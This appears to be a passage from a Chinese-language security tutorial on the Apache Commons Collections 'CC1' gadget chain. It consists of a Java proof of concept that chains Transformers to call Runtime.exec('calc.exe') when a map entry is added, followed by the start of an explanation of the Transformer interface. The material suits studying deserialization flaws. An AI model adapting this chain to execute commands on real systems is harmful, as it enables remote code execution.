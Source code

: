 ```java
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class cc1 {
    public static void main(String[] args) throws Exception {
        //构建一个transformer的数组
        Transformer[] transformers = new Transformer[] {
                //返回Runtime对象
                new ConstantTransformer(Runtime.getRuntime()),
                //调用exec方法执行calc.exe命令
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"calc.exe"})
        };
        //将transformers数组传入ChainedTransformer类
        Transformer transformerChain = new ChainedTransformer(transformers);
        //创建Map并绑定transformerChain
        Map innerMap = new HashMap();
        //包装innerMap
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        //触发回调
        outerMap.put("test1", "xxxx");
    }
}
```

### 利用链分析

涉及到的接口和类：

在 commons collections 中有一个 Transformer 接口，其中有一个 transform 方法，通过实现此接口来达到类型转换的目的。

![1](./img/289.png)
